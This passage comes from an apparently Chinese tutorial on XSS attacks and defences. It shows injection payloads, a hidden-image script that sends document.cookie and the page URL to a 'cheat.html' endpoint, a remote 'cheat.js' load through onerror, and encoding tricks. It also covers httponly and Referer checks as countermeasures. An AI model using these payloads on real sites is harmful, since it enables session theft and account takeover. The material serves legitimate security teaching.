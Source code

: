 ```xml
        </script>
    </body>
</html>
```

完整源码可以查看[demo6](https://link.segmentfault.com/?enc=lw1mgiqi%2BgpjsN7XtxGtgQ%3D%3D.kSUSKSu1hIaylfuR9LAXYDYeyafnFTEOJghTWig0wbJBV0b3YrMUzIFvVR4G74cI)
A可以直接修改URL参数注入代码

```awk
https://www.test.com/?data={"data":"<script>alert(\"XSS\")</script>"}
```

![图片描述](D:\0_Notes\Hexo\hmxyl\source\_images\bVbvZSt.png)

### A通过恶意脚本在页面插入图片自动发起恶意请求

```javascript
var img = document.createElement('img');
img.src =
  'http://www.test.com/cheat.html?url=' +
  escape(window.location.href) +
  '&content=' +
  escape(document.cookie);
img.style = 'display:none';
document.body.appendChild(img);
```

完整源码可以查看[demo7](https://link.segmentfault.com/?enc=HyNsNtiso%2FP4qBVkuB3HBg%3D%3D.K5rc87juwtWRDIwIUga7MX1WYXIAHW0fkwI8NBV9olOSDk4sZUlLGfAoOHsEbh8f)
B让服务端采用了比较简单的办法使用`httponly`禁止JS脚本访问cookies信息让A无法拿到

### A通过事件注入恶意脚本

```dart
var img = document.createElement('img');
img.src = '#';
img.onerror = document.body.appendChild(document.createElement('script')).src =
  'http://www.test.com/cheat.js';
img.style = 'display:none';
document.body.appendChild(img);
```

完整源码可以查看[demo8](https://link.segmentfault.com/?enc=0E77Ps%2B91Qg%2FBv1D3QCfeA%3D%3D.nfOm9N11kbP9QyK63oB%2Fg0psy1yz3KmkDcTxo8dGIXTtfgSc29jKHGuJTX1Q6XHX)
当浏览器向web服务器发送请求的时候，一般会带上`Referer`，告诉服务器我是从哪个页面链接过来的，服务器基此可以获得一些信息用于处理。可以让服务端限制必须是白名单才能通过请求达到防盗链功能,但是丢失`Refere`情况比较多,而且容易被恶意修改,所以大多只适用于资源被恶意引用的情况

### A利用浏览器的解码顺序进行混合编码组装

当浏览器进行绘制时，解码顺序分别为 HTML > URL > JS,所以A构造了这么一段代码

```perl
<a href="javascript&#58;alert('\<%E6%B5%8B%E8%AF%95\>')">jump</a>
```
